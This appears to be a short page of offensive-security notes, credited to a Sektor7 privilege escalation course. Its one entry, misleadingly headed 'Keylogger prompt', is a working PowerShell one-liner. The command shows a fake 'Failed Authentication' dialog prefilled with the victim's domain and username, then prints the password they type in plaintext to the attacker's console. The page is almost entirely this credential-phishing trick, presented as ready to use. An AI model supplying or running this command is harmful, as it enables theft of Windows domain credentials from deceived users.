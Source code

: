 # Bonus Tricks

### Keylogger prompt

This is a neat trick that can be used during desperate times. It will spawn a UI prompt that will ask for the user's domain credentials using environment variables to pull the username, then display the password in plaintext to the attacker console. 

From a CMD.exe prompt:

```powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

- from Sektor7 Privilege Escalation course
